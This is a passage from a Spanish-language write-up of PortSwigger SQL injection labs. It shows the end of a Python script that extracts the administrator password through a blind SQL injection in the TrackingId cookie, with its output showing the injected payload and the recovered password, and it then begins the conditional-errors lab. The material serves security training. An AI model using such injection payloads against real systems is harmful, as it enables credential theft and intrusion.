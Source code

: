 ```bash
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```

```bash
❯ python3 SQLI_ce.py
[◤] Fuerza Bruta: h9NyMIr3HYJLUkb8' and (select substring(password,20,1) from users where username='administrator')='r
[▅] Password: 9ukm2pkd8yzk570rqv2r
```

![](/assets/images/ports-writeup-sqli/web63.png)

## Blind SQL injection with conditional errors

<https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>

Para esta inyeccion no vas a ver errores en la respuesta si nos vamos a ver códigos de estado y en eso nos vamos a basar y bueno es otro vez atreves de la cookie asi que vamos a seleccionar una categoría y de hay pues vamos a interceptar la petición con **Burpsuite** y bueno ahora no vemos nada del welcome back!

![](/assets/images/ports-writeup-sqli/web64.png)
